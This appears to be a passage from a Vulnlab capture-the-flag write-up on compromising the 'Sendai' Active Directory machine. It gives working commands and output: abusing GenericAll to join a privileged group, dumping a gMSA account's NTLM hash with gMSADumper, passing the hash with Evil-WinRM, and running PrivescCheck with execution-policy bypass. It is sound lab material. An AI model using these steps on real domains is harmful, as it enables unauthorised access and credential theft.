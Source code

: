 Added our user to the ADMSVC group by abusing the GenericAll privilege.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai]
└─$ net rpc group addmem "ADMSVC" "ELLIOT.YATES" -U "SENDAI.VL"/"Elliot.Yates" -S "10.10.126.132"
                
Password for [SENDAI.VL\Elliot.Yates]:
```

We used the [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper) to dump the NTLM hash of the user `mgtsvc$`.

```
┌──(destiny㉿falcon)-[~/tools-backup/gMSADumper]
└─$ python3 gMSADumper.py -u 'Elliot.Yates' -p 'Password@123' -d sendai.vl
Users or groups who can read password for mgtsvc$:
 > admsvc
mgtsvc$:::ce0b2ff6ebd759c1b09b16e7173070f2
mgtsvc$:aes256-cts-hmac-sha1-96:31aadec6c9cae2c03f9854ebd5b2d30c977ef3cc581c7916ef4e117dbdee820f
mgtsvc$:aes128-cts-hmac-s
```

We were able to use Evil-WinRM to perform a pass-the-hash attack, access the DC as the `mgtsvc$` user, and retrieve the Sendai_User flag from `C:\`.

<img src="attachments/44a37bc4d23f40f22a14db407b2da5d4.png" />

Uploaded and ran WinPEAS but found nothing. We uploaded [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1) to the DC and ran it using the PS shell.

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

While checking the processes, we were able to see the credentials of the user `clifford.davey` being passed.

<img src="attachments/416240734185150d95a5d2b4390fef1e.png" />
